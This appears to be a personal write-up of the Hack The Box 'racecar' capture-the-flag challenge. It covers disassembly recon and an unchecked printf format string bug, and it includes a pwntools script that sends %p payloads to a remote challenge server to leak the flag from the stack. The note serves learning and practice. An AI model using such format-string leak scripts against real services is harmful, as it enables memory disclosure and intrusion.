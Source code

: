 
2024-07-30 15:14

Source: #htb 
 
Tags: [[Binary Exploit]] [[Format String Vulnerabilities (printf)]]
## Gist 

- We are given a binary that takes a bunch of Boolean inputs and if it matches a randomly generated value (referred to as winning) then it gives you an option to input some data that gets stored in the stack and reveals the flag.
- now, if you win then the code checks if a `flag.txt` exists in the working directory and if it doesn't then it throws an error.
- create a `flag.txt` in the working directory and populate the file with some AAAA's further run the `pwntool` script and get the answer 
`echo AAAAAAAAAAA  >  flag.txt`
### Recon

open the file `dogbolt` online and on seeing the o/p from `Ghidra` we see - 
1. that the `flag.txt` is opened in read mode and returns a pointer to `__stream`.

2. The [[fgets]] function reads a line from the file pointed to by `__stream` (the flag) and stores it in the buffer `local_3c`, which is an array of size `0x2c` (44 bytes).

3. The `read(0, __format, 0x170)` reads my input and stores it in the buffer `__format` of size `0x170` (368 bytes).
### Vulnerability Analysis 

My input is printed at the [[printf]], but our input is not checked, hence we can perform a format string attack. 
More information about format string attacks can be read here: [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack).

If I run the binary and give many `%p`’s, data on the stack will be leaked in hexadecimal.
when doing this you will notice some addresses as `0x41414141` these will be the `AAAA` you added to your `flag.txt`
### Mimic user input via pwntools

```
from pwn import *

flag = ''

# Let's fuzz x values
for i in range(100):
    try:
        # Connect to server
        io = remote('94.237.59.199', 55496)
        io.sendlineafter(b'Name: ', b'anything')
        io.sendlineafter(b'Nickname: ', b'something')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'2')
        io.sendlineafter(b'> ', b'1')
        # Format the counter
        # e.g. %i$p will attempt to print [i]th pointer (or string/hex/char/int)
        io.sendlineafter(b'> ', '%{}$p'.format(i).encode())
        # Receive the response
        io.recvline()
        io.recvline()
        result = io.recv()
        if not b'nil' in result:
            print(str(i) + ': ' + str(result))
            try:
                # Decode, reverse endianess and print
                decoded = unhex(result.strip().decode()[2:])
                reversed_hex = decoded[::-1]
                print(str(reversed_hex))
                # Build up flag
                flag += reversed_hex.decode()
            except BaseException:
                pass
    except EOFError:
        pass

# Print and close
info(flag)
io.close()
```
### References
https://app.hackthebox.com/challenges/racecar

walkthroughs - 
[Hack the Box rev HTB_RACECAR (pwnjournal.github.io)](https://pwnjournal.github.io/HTB_RACECAR/)
[HTB pwn →‘racecar’. | by Apothiphis_z | Medium](https://medium.com/@fracchetto1995/htb-pwn-racecar-f9206cfd943f)
[HTB: Racecar - remoteshell.zip](https://remoteshell.zip/racecar/)
[Racecar | WriteUps (gitbook.io)](https://sayonara.gitbook.io/writeups/hackthebox/challenges/pwn/racecar)
